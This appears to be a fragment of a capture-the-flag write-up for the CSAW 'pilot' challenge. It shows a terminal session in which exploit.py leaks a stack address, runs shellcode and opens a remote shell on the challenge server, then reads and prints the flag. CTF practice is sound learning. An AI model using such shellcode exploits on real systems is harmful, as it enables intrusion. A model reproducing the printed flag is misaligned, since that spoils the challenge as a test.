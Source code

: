 ➜  pilot git:(master) ✗ python exploit.py
[+] Opening connection to pwn.chal.csaw.io on port 8464: Done
Exploit?
0x7ffcf14b6da0
Shellcode is at: 0x7ffcf14b6da0
[*] Switching to interactive mode
$ id
uid=1000(pilot) gid=1000(pilot) groups=1000(pilot)
$ whoami
pilot
$ ls
flag
pilot
$ cat flag
flag{1nput_c00rd1nat3s_Strap_y0urse1v3s_1n_b0ys}
[*] Got EOF while reading in interactive
$  

